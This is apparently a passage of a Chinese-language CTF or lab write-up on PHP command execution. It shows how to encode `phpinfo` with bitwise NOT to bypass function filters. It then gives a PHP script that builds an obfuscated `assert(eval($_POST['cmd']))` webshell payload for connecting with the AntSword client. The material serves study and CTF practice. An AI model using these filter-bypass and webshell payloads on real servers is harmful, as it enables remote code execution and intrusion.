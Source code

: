 下面用取反先构造一个phpinfo的payload，看一下PHP版本以及禁用函数：

```php
 php -r 'echo urlencode(~"phpinfo");'
```

![image-20211126164841384](image/命令执行/image-20211126164841384.png)

```php
?code=(~%8F%97%8F%96%91%99%90)();
```

版本为php7，过滤system,exec,shell_exec等函数

![image-20211126164719284](image/命令执行/image-20211126164719284.png)

构造一个webshell连上蚁剑

shell.php文件内容

```php
<?php 
error_reporting(0);
$a='assert';
$b=urlencode(~$a);
echo $b;
echo "\n";
$c='(eval($_POST["cmd"]))';
$d=urlencode(~$c);
echo $d;
 ?>
```

![image-20211126165324099](image/命令执行/image-20211126165324099.png)
